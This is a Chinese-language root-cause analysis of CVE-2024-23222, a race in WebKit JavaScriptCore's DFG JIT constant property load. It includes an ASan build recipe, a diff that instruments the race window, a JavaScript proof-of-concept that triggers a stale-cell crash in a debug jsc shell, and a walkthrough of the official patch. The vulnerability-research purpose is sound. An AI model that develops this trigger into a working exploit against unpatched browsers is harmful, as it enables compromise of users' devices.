








# CVE-2024-23222 Linux x86_64 复现与根因分析

CVE-2024-23222 的核心是 JSC DFG 编译线程在 `Graph::tryGetConstantProperty()` 中并发读取对象属性值后，缺少主线程最终有效性校验，导致 stale `JSCell` 被后续 `freeze()` / GC / DFG plan 路径消费。

摘要：公开分类是 type confusion；根因分析层面更准确地说，这是 DFG constant property load 的 TOCTOU / stale value validation 缺失。复现使用 Linux x86_64 ASan JSC shell PoC，目标是观察 stale-cell 崩溃并验证补丁有效性。补丁通过 `DesiredObjectProperties` 把编译线程读到的属性值转化为主线程最终提交前必须重新验证的编译假设。

## 基本信息


| 项目 | 内容 |
| ---- | ---- |
| CVE 编号 | CVE-2024-23222 |
| 漏洞类型 | Type Confusion / TOCTOU |
| 影响组件 | WebKit JavaScriptCore DFG JIT |
| 复现场景 | Linux x86_64, JavaScriptCore `jsc` shell |
| 关键修复提交 | [`64714692967ad278155fcae66c5cb0f853b3bf34`](https://github.com/WebKit/WebKit/commit/64714692967ad278155fcae66c5cb0f853b3bf34) |
| Commit title | `[JSC] DFG constant property load should check the validity at the main thread` |
| WebKit Bugzilla | `267134` |

受影响代码集中在 DFG 编译阶段的常量属性访问优化中。

核心函数包括：`DFGGraph.cpp` 中的 `Graph::tryGetConstantProperty()` 和 `Graph::freeze()`，`DFGFrozenValue.h` 中的 `FrozenValue::freeze()`，以及修复后主线程最终校验入口 `DFGPlan.cpp` 的 `Plan::isStillValidOnMainThread()`。补丁新增的 `DFGDesiredObjectProperties.*` 用于记录并验证对象属性快照。

## 漏洞简述与影响版本

根因分析层面看，本漏洞不是简单的 JavaScript 层类型混淆，而是 DFG 编译线程在 constant property load 中把并发读到的 `JSValue` 当作优化假设继续使用，但修复前没有在 DFG plan 安装前由 JS 主线程重新验证该对象结构和属性值仍然匹配。

Apple 和 NVD 的公开描述认为，处理恶意构造的 Web 内容可能导致任意代码执行，且 Apple 表示该问题可能已被在野利用。修复版本包括 Safari 17.3、iOS / iPadOS 17.3、macOS Sonoma 14.3、tvOS 17.3 和 visionOS 1.0.2；旧版本系统对应安全更新以 Apple / NVD 公告为准。

补丁重点不是 JavaScript 语义层面的类型检查，而是让 DFG constant property load 在主线程最终阶段验证编译期间读取到的对象属性假设。

核心因果链如下：

```text
probe() 读取 state.val
  -> DFG 尝试 constant property load
  -> Graph::tryGetConstantProperty() 通过 getDirectConcurrently() 读出 JSValue result
  -> DFG 编译线程释放 cellLock
  -> JS 主线程执行 state.val = 0 并触发 GC
  -> 原 JSCell 生命周期失效
  -> DFG 编译线程后续 freeze() / weak reference / GC marking / plan finalize 路径继续消费旧值
  -> stale-cell 崩溃或 type confusion 风险
```

这张图说明 `state.val`、JS 主线程、DFG 编译线程、GC 和 `tryGetConstantProperty()` 之间的对象生命周期关系。



## 复现环境

复现环境： Ubuntu 22.04 / Ubuntu 24.04 x86_64，使用 WebKit JavaScriptCore Debug + ASan 构建，开启 DFG JIT 和 Concurrent JIT。

这里开启 ASan 是为了把 stale `JSCell` 的非法访问转化为可读的崩溃报告。没有 ASan 时，同一个 stale value 可能表现为随机 SEGV、静默错误、后续不相关位置崩溃，或者因为释放内存很快被复用而看不出原始问题。ASan 的调用栈、错误类型和 quarantine 机制可以让“旧 cell 被继续消费”这个事实更容易被确认。

记录版本时使用：

```bash
git rev-parse HEAD
```

需要使用 Debug + ASan，保证崩溃点可读。`-fno-omit-frame-pointer` 用于保留更完整的调用栈，方便把 ASan 报告对应回 JSC 的 GC、DFG 或 plan finalize 路径。

```bash
WEBKIT_OUTPUTDIR=$PWD/WebKitBuild \
CFLAGS="-fsanitize=address -fno-omit-frame-pointer" \
CXXFLAGS="-fsanitize=address -fno-omit-frame-pointer" \
LDFLAGS="-fsanitize=address" \
Tools/Scripts/build-webkit \
  --jsc-only \
  --debug \
  --cmakeargs="-DDEVELOPER_MODE_FATAL_WARNINGS=OFF -DCMAKE_EXPORT_COMPILE_COMMANDS=1"
```

如果本地构建脚本或端口参数不同，以实际环境为准。完成后确认 `jsc` 位于：

```text
WebKitBuild/Debug/bin/jsc
```

运行命令如下，保持参数不变便于和已有日志对照。

```bash
ASAN_OPTIONS='detect_stack_use_after_return=1:abort_on_error=1:quarantine_size_mb=256:detect_leaks=0' \
WebKitBuild/Debug/bin/jsc \
  --useConcurrentJIT=true \
  --thresholdForOptimizeAfterWarmUp=20 \
  --thresholdForJITAfterWarmUp=5 \
  --thresholdForFTLOptimizeAfterWarmUp=1000000 \
  poc.js
```

这些参数的共同目标是尽快进入 DFG，并让 ASan 崩溃更容易被观察。`--useConcurrentJIT=true` 让 DFG 编译线程与 JS 主线程并发运行；`--thresholdForOptimizeAfterWarmUp=20` 和 `--thresholdForJITAfterWarmUp=5` 降低 tier-up 门槛；`--thresholdForFTLOptimizeAfterWarmUp=1000000` 抬高 FTL 阈值，减少 FTL 介入对 DFG 观测路径的干扰。

`ASAN_OPTIONS` 的含义如下：

1. `detect_stack_use_after_return=1`：增强栈 use-after-return 检测，避免某些栈残留问题被忽略。
2. `abort_on_error=1`：ASan 命中后立即终止进程，方便保留第一现场。
3. `quarantine_size_mb=256`：增大释放对象 quarantine，降低旧 `JSCell` 内存立刻被复用的概率。
4. `detect_leaks=0`：关闭 leak 检测，避免进程退出阶段的 leak 报告干扰本次 stale-cell 崩溃观测。

## PoC 预备知识

### DFG 并发编译

JavaScriptCore 的 DFG JIT 可以在后台线程编译热函数。JS 主线程继续执行 JavaScript，DFG 编译线程读取 profiling 信息、结构信息和部分对象属性，构造优化后的 DFG IR。

该设计要求 DFG 编译线程读取到的假设必须在最终安装代码前仍然有效。通常 JSC 通过 watchpoint、weak reference、结构检查和主线程最终校验来保证这一点。

### 常量属性加载

如果编译器能够证明某个属性值稳定，它可能把一次属性读取转换成常量。例如：

```javascript
function probe() {
  return state.val ? 1 : 0;
}
```

在 DFG 中，`state.val` 可能被尝试折叠为一个固定 `JSValue`。如果该 `JSValue` 是对象，则它内部携带一个指向 `JSCell` 的指针。

### TOCTOU

TOCTOU 指检查与使用之间状态发生变化。这里的检查发生在 DFG 编译线程读取对象结构和属性值时，使用发生在后续冻结常量、注册弱引用、GC 标记或最终生成优化代码时。

本漏洞的核心不是简单的 JavaScript 层类型混淆，而是 DFG 编译线程把某个属性值作为优化假设保存下来后，该值在 JS 主线程上被替换或释放，导致后续使用落在过期对象上。

## 稳定复现准备

为了稳定观察 stale-cell 路径，PoC 需要在 `Graph::tryGetConstantProperty()` 中加入一处研究插桩。插桩不是漏洞必要条件，只是为了在 Linux x86_64 ASan 环境中扩大 `result` 读取后到 JS 主线程释放 / GC 之间的竞态窗口。

插桩位置必须在 `getDirectConcurrently()` 读出 `result` 之后。这样日志里的 `[tgcp] HIT` 证明 DFG 编译线程已经读到 cell-valued `JSValue`，随后 sleep 给 JS 主线程执行 `state.val = 0` 和 GC 留出时间。

```diff
diff --git a/Source/JavaScriptCore/dfg/DFGGraph.cpp b/Source/JavaScriptCore/dfg/DFGGraph.cpp
index fe7855e8cd77..270656cac60c 100644
--- a/Source/JavaScriptCore/dfg/DFGGraph.cpp
+++ b/Source/JavaScriptCore/dfg/DFGGraph.cpp
@@ -55,6 +55,7 @@
 #include "Snippet.h"
 #include "StackAlignment.h"
 #include "StructureInlines.h"
+#include <unistd.h>
 #include <wtf/CommaPrinter.h>
 #include <wtf/ListDump.h>

@@ -1341,12 +1342,23 @@ JSValue Graph::tryGetConstantProperty(
     // incompatible with the getDirect we're trying to do. The easiest way to do that is to
     // determine if the structure belongs to the proven set.

-    Locker cellLock { object->cellLock() };
-    Structure* structure = object->structure();
-    if (!structureSet.toStructureSet().contains(structure))
-        return JSValue();
+    JSValue result;
+    {
+        Locker cellLock { object->cellLock() };
+        Structure* structure = object->structure();
+        if (!structureSet.toStructureSet().contains(structure))
+            return JSValue();
+        result = object->getDirectConcurrently(cellLock, structure, offset);
+    }

-    return object->getDirectConcurrently(cellLock, structure, offset);
+    if (result && result.isCell()) {
+        dataLogLn("[tgcp] HIT result=", RawPointer(result.asCell()));
+        dataLogLn("[tgcp] RACE: sleep 500ms");
+        usleep(500000);
+        dataLogLn("[tgcp] WAKE result=", RawPointer(result.asCell()));
+    }
+
+    return result;
 }

 JSValue Graph::tryGetConstantProperty(JSValue base, Structure* structure, PropertyOffset offset)
```

## PoC 解析

PoC 固定了 `state` 对象结构，让 `probe()` 只读取 `state.val`，再在 DFG 编译窗口内把 `state.val` 替换为 number 并触发 GC。

```javascript
const state = {
  val: { x: 1, y: 2, z: 3, w: 4 },
  pad: attemptId,
};
Object.seal(state);
```

`Object.seal(state)` 不是漏洞语义上的必要条件。这里使用它是为了稳定 `state` 的对象结构，减少无关结构迁移带来的噪声，从而提高 fixed offset property load / constant property load 命中率。换句话说，它服务于复现稳定性，而不是定义漏洞本身。

Probe 函数的默认形态如下。

```javascript
const probe = new Function(
  'state',
  'const v0 = state.val; return (v0 ? 1 : 0);'
).bind(null, state);
```

该函数只读取 `state.val`。warmup 后，PoC 通过 `optimizeNextInvocation(probe)` 要求下一次调用触发优化编译。

PoC 具体代码如下。

```javascript
'use strict';

function gcNow() {
    if (typeof fullGC === 'function')
        fullGC();
    else if (typeof gc === 'function')
        gc();
}

function pressure() {
    let junk = [];
    for (let i = 0; i < 20000; i++)
        junk.push({ a: i, b: i + 1, c: i + 2, d: i + 3 });
    return junk.length;
}

function main() {
    const state = {
        val: { x: 1, y: 2, z: 3, w: 4 },
        pad: 13,
    };

    Object.seal(state);

    let probe = new Function(
        'state',
        'const v0 = state.val; return v0 ? 1 : 0;'
    ).bind(null, state);

    for (let i = 0; i < 2000; i++)
        probe();

    optimizeNextInvocation(probe);

    print('[mini] trigger DFG compile');
    probe();

    print('[mini] release state.val and force GC');

    state.val = 0;
    probe = null;

    for (let i = 0; i < 5; i++) {
        gcNow();
        pressure();
    }

    print('[mini] done');
}

main();
```

这张图证明插桩日志中 DFG 编译线程已经读到 cell-valued `result`，随后 JS 主线程进入 release + GC 阶段。



## 触发路径与竞态窗口

触发路径从 `probe()` 读取 `state.val` 开始。对 DFG 来说，这次读取可能被识别为 fixed offset property load，并进一步尝试折叠为 constant property load。

```text
probe() reads state.val
  -> DFG bytecode parsing / optimization
  -> GetByOffset / constant folding
  -> Graph::tryGetConstantProperty()
  -> object->getDirectConcurrently()
  -> Graph::freeze() / FrozenValue::freeze()
```

这条路径的关键不是属性读取本身，而是 `Graph::tryGetConstantProperty()` 会在 DFG 编译线程中读取 JS 堆对象里的真实 `JSValue`。如果该值是对象，就会携带 `JSCell*`，后续 `freeze()`、weak reference、GC marking 或 plan finalize 都可能继续触碰它。

### 竞态窗口

竞态窗口位于 DFG 编译线程读取 `result` 之后、后续路径消费 `result` 之前。此时它持有的是普通 `JSValue`，不是会阻止 GC 回收的强根。

这张图说明 `result` 读取、释放 `cellLock`、JS 主线程替换属性、GC、后续消费 stale value 之间的时间顺序。



竞态窗口可以简化成如下内容：

```text
T1 DFG 编译线程: getDirectConcurrently() 读出 result = old JSCell
T2 DFG 编译线程: 释放 cellLock
T3 JS 主线程: state.val = 0
T4 JS 主线程: fullGC() / pressure() 使 old JSCell 生命周期失效
T5 DFG 编译线程: freeze(result) / weak reference / GC marking / plan finalize
```

`cellLock` 只保护读取瞬间，不保护返回后的 `JSValue` 生命周期。

## 崩溃栈解释

本次 ASan 崩溃的观测点落在 GC conservative root scanning 路径。它说明旧 `JSCell` 在 GC 相关路径中被继续使用，但不意味着漏洞只发生在 GC。

这张图证明本次 ASan 栈顶位于 `ConservativeRoots::genericAddSpan()`，调用链来自 `fullGC()` 触发的 conservative root scanning。



关键栈顶如下：

```text
#0 JSC::ConservativeRoots::genericAddSpan(...)
#1 JSC::ConservativeRoots::add(...)
#2 JSC::MachineThreads::gatherFromCurrentThread(...)
#4 JSC::Heap::gatherStackRoots(...)
#31 JSC::Heap::collectSync(...)
#32 functionFullGC
```

崩溃路径可简化如下：

```text
fullGC()
  -> Heap::collectSync()
  -> Heap::gatherStackRoots()
  -> MachineThreads::gatherFromCurrentThread()
  -> ConservativeRoots::genericAddSpan()
  -> SEGV
```

| 栈帧 | 证明什么 |
| ---- | -------- |
| `fullGC()` | PoC 主动触发了 JSC shell 暴露的完整 GC 入口。 |
| `Heap::collectSync()` | 崩溃发生在一次同步 GC 流程中，而不是普通 JS 解释执行栈。 |
| `MachineThreads::gatherFromCurrentThread()` | GC 正在收集当前线程上的保守根。 |
| `ConservativeRoots::genericAddSpan()` | ASan 观测到的非法访问点位于 conservative root scanning。 |

不同运行窗口下，崩溃也可能落在 `FrozenValue::freeze()` 或其他消费 stale `JSValue` 的路径。核心不变：旧 `JSCell` 在 JS 主线程替换属性并触发生命周期变化后，仍被后续编译或 GC 路径继续使用。

因此，GC 栈是 stale value 被消费的一个观测点，不是 root cause 本身。root cause 仍然是 DFG constant property load 读取后的 `JSValue` 缺少主线程最终有效性校验。

## Root Cause

Root Cause 是 DFG constant property load 在 DFG 编译线程捕获对象属性值后，修复前没有把这个值作为“必须在 JS 主线程最终提交前仍成立”的编译假设重新验证。前面的时间线已经说明 stale `JSCell` 如何被消费，这里只收束到机制缺口。

### 修复前行为

修复前，`Graph::tryGetConstantProperty()` 在 `cellLock` 保护下读取属性值并直接返回：

```cpp
Locker cellLock { object->cellLock() };
Structure* structure = object->structure();
if (!structureSet.toStructureSet().contains(structure))
    return JSValue();
return object->getDirectConcurrently(cellLock, structure, offset);
```

`cellLock()` 只保护读取瞬间，不保护返回后的 `JSValue` 生命周期。也就是说，问题不是“读属性”这一步本身，而是读到的值离开锁以后，没有在 DFG plan 安装前重新确认仍然是对象当前属性值。

### 原有保护机制的边界

JSC 并不是完全没有保护 JIT 假设。对很多结构和属性相关优化来说，编译器会依赖 watchpoint、结构检查和最终有效性检查来避免过期假设进入可执行代码。

其中 watchpoint 可以理解为 JIT 优化依赖的“失效通知”。编译器如果基于某个对象结构或属性状态做了假设，就会订阅对应 watchpoint；当 JS 主线程后续修改属性、替换结构或破坏这个假设时，watchpoint 会被 fire，相关优化代码或编译计划就不能继续被当作有效结果使用。

但 watchpoint 能覆盖的是“被订阅到的状态变化”。本漏洞的问题更微妙：DFG 编译线程读到的是某一瞬间的具体属性值，而最终安装的优化代码通常只保留较粗粒度的结构检查。

可以把关键模式理解成下面这样：

```text
CheckStructure O, S1 | S3
GetByOffset O, offset
```

这表示最终优化代码只关心对象 `O` 的结构是不是 `S1` 或 `S3`，然后从固定 `offset` 读取属性。问题是，编译期间对象并不一定只停留在最终检查覆盖的结构上。它可能经历 `S1 -> S2 -> S3` 的变化，而 DFG 编译线程恰好在中间的 `S2` 状态读取了属性值。

此时，即使最终代码里的 `CheckStructure O, S1 | S3` 看起来可以约束运行时对象结构，也不能证明编译线程在 `S2` 状态读到的那个 `JSValue` 仍然是当前有效值。换句话说，结构检查和属性替换 watchpoint 只能说明一部分假设没有失效，不能替代对“编译线程读到的具体属性值”做主线程最终校验。

### 本质问题

所以本质问题可以写成：

```text
DFG constant property load captured a JSValue on the compiler thread,
but the captured object property was not revalidated on the main thread
before the optimized code became usable.
```

因此，补丁的方向不是加强 JavaScript 层类型判断，而是把 `object`、`offset`、`expectedValue` 和 `expectedStructure` 一起记录下来，在 DFG plan 安装前由 JS 主线程重新确认它们仍然成立。

## 源码对应关系

这一节把前面的根因描述对应回修复前后的关键代码。以下源码摘录围绕补丁语义展开，省略了无关分支和上下文。

修复前，`Graph::tryGetConstantProperty()` 在 DFG 编译线程里拿到 `cellLock`，确认当前 `Structure` 在已证明的 `structureSet` 中，然后直接返回并发读到的属性值。

```cpp
Locker cellLock { object->cellLock() };
Structure* structure = object->structure();
if (!structureSet.toStructureSet().contains(structure))
    return JSValue();

return object->getDirectConcurrently(cellLock, structure, offset);
```

这段代码证明：修复前的保护边界只覆盖读取瞬间。`getDirectConcurrently()` 返回的 `JSValue` 离开 `cellLock` 后，没有被记录为必须在主线程最终提交前重新验证的对象属性假设。

修复后，`tryGetConstantProperty()` 在读到 `result` 后，会把对象、属性偏移、读取到的值和读取时的结构记录到 `DesiredObjectProperties`。这里保留的是补丁关键逻辑，具体成员访问形式以对应 WebKit 分支源码为准。

```cpp
JSValue result = object->getDirectConcurrently(cellLock, structure, offset);
if (!result)
    return JSValue();

desiredIdentifiers().ensureStillAlive(object);
desiredIdentifiers().ensureStillAlive(result);
desiredObjectProperties().addLazily(object, offset, result, structure);
return result;
```

这段代码证明：修复后并不是禁止 DFG 编译线程读取属性，而是把读取结果从“临时观察值”提升为“后续必须验证的编译假设”。其中 `object`、`offset`、`result` 和 `structure` 对应后续主线程验证所需的四个字段。

最终验证发生在 `Plan::isStillValidOnMainThread()`。修复后它不仅检查 watchpoints，也检查 objectProperties。

```cpp
bool Plan::isStillValidOnMainThread()
{
    return watchpoints().areStillValidOnMainThread()
        && desiredObjectProperties().areStillValidOnMainThread();
}
```

这段代码证明：`DesiredObjectProperties` 被接入 DFG plan 的最终有效性检查。只要对象当前结构、offset 有效性或当前属性值和编译线程读到的值不一致，plan 就不能继续安装。

## Patch 分析

官方修复引入 `DesiredObjectProperties`，把 DFG 编译线程读到的属性值转化为“必须在 JS 主线程最终提交前仍成立”的编译假设。
具体修复提交见 [WebKit commit 64714692967a](https://github.com/WebKit/WebKit/commit/64714692967ad278155fcae66c5cb0f853b3bf34)。

补丁的核心思路不是禁止 DFG 编译线程读取属性，而是给“读到的属性值”补上提交前校验。编译线程仍然可以尝试 constant property load，但读到的 `JSValue` 不能直接变成最终优化代码的事实。

先把这个策略放回 PoC 的 `state.val` 上看。DFG 想优化的是这次属性读取：

```text
probe() -> state.val
```

对 JSC 来说，对象的 `Structure` 可以粗略理解为“对象形状”：有哪些属性、属性在对象存储里的 offset 是什么。`structureSet` 则是 DFG 认为最终优化代码可以接受的一组对象形状。后续生成的结构检查大致等价于：

```text
if state.structure is in structureSet:
    use optimized property load
```

因此，补丁要回答的问题不是“能不能读 `state.val`”，而是“编译线程读到的这个 `state.val`，最终安装优化代码时是否仍然可信”。

如果只有一个候选结构，情况是可验证的。假设 DFG 编译线程读属性时看到：

```text
state.structure = S
state.val = old JSCell
```

这时它可以把这次读取记录成一条明确的快照：

```text
object = state
offset = offsetOf("val")
expectedStructure = S
expectedValue = old JSCell
```

最终提交前，JS 主线程重新读取同一个对象，只要确认下面两件事仍然成立，这条 constant property load 假设就没有过期：

```text
currentStructure == expectedStructure
currentValue == expectedValue
```

`DesiredObjectProperties` 记录的就是这类“最终提交前必须仍然为真”的属性假设。

多结构场景就麻烦得多。假设 DFG 最终优化代码准备接受的是：

```text
structureSet = { S1, S2, S3 }
```

编译线程可能刚好在对象处于 `S2` 时读到：

```text
expectedStructure = S2
expectedValue = old JSCell
```

但最终代码的结构检查可能仍然接受 `S1 | S2 | S3`。这时单个 `expectedStructure = S2` 的快照无法代表整个 `structureSet`。它只证明了“在 S2 下读到 old JSCell”，并没有证明：

```text
S1 下 offsetOf("val") 语义相同
S3 下 offsetOf("val") 语义相同
S1/S2/S3 下 state.val 都等于 old JSCell
最终对象如果是 S1 或 S3 也应该接受这个 constant value
```

如果这些条件证明不了，继续把 `old JSCell` 当成 constant property load 的结果，就会重新回到漏洞的核心问题：编译线程保存了一个瞬时读出的值，但最终优化代码允许更宽的运行时状态。

所以补丁在这里选择保守策略：

```cpp
if (structureSet.size() != 1)
    return JSValue();
```

修复后的策略可以概括为：

| 场景 | 保护方式 | 是否使用 `DesiredObjectProperties` |
| --- | --- | --- |
| 所有结构都能被 watch | 继续依赖 watchpoint | 不使用 |
| 不能全 watch，但只有一个结构 | 记录 object property 快照并最终验证 | 使用 |
| 不能全 watch，而且有多个结构 | 放弃 constant property load | 不优化 |

也就是说，补丁没有否定 watchpoint；它只是在 watchpoint 覆盖不足、但仍能用唯一结构快照描述属性假设时，补上一道主线程最终校验。两者都不满足时，JSC 直接放弃这次优化。证明不了，就不优化，这是 JIT 里常见的安全取舍。

新增文件如下：

```text
Source/JavaScriptCore/dfg/DFGDesiredObjectProperties.cpp
Source/JavaScriptCore/dfg/DFGDesiredObjectProperties.h
```

核心数据结构可以概括为：

```cpp
HashMap<
    std::tuple<JSObject*, PropertyOffset>,
    std::tuple<JSValue, Structure*>
> m_properties;
```

它记录的正是前面提到的唯一结构快照：`object`、`offset`、`expectedValue` 和 `expectedStructure`。

主线程最终验证逻辑如下：

```cpp
Structure* structure = object->structure();

if (structure != expectedStructure)
    return false;

if (!structure->isValidOffset(offset))
    return false;
